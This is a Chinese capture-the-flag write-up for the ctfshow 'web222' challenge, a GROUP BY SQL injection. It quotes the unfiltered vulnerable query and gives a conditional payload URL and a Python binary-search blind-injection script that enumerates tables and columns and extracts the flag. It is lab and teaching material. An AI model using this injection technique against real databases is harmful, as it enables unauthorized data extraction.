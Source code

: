 ## web222~group by注入

> 查询语句
>
>   //分页查询
>   $sql = select * from ctfshow_user group by $username;
>       
>
> 返回逻辑
>
> //TODO:很安全，不需要过滤
>       

可使用盲注

payload

```
http://84f3c1f3-59e9-47e4-9855-c2af4f32432d.chall.ctf.show/api/?u=if((1=2),username,0)&page=2&limit=10
```

脚本：

```python
# Author: yanmie

import requests

url = "http://84f3c1f3-59e9-47e4-9855-c2af4f32432d.chall.ctf.show/api/"

# payload = "if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},username,0)"
# 得到 ctfshow_flaga,ctfshow_user
# payload = "if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'),{},1))>{},username,0)"
# 得到 id,flagaabc,info
payload = "if(ascii(substr((select group_concat(flagaabc) from ctfshow_flaga),{},1))>{},username,0)"
# 得到flag
result = ""
i = 0

while True:
    i += 1
    head = 0
    tail = 127
    while head<tail:
        mid = (head+tail)//2
        param = {
            "u" : payload.format(i,mid),
        }
        response = requests.get(url=url,params=param)
        if "passwordAUTO" in response.text:
            head = mid+1
        else:
            tail = mid
    if head==0:
        break;
    result += chr(head)
    print(result)
```
